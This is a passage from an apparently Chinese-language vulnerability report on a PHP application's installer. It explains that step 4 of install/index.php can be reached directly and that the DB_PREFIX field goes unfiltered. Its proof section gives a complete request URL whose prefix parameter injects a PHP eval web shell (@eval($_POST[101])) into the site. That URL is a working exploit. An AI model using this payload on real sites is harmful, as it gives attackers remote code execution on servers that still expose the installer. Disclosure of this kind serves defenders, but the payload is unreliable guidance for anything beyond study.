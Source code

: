 ```php
} 
```

所以直接进行 setp = 4 的步骤，其中只有 DB_PREFIX 字段不影响，可以用来 getshell。

## 漏洞证明

直接访问 URL：

**.**.**.**/install/index.php?host=localhost&user=root&password=root&dbname=hello&prefix=f_');@eval($_POST[101]);('&url_type=1&step=4

![](img/191726299ba9a35353fda67f823e1845cdc8dfa0.png)

![](img/19172636a069e7e99449572a464daef0f5c0d08b.png)
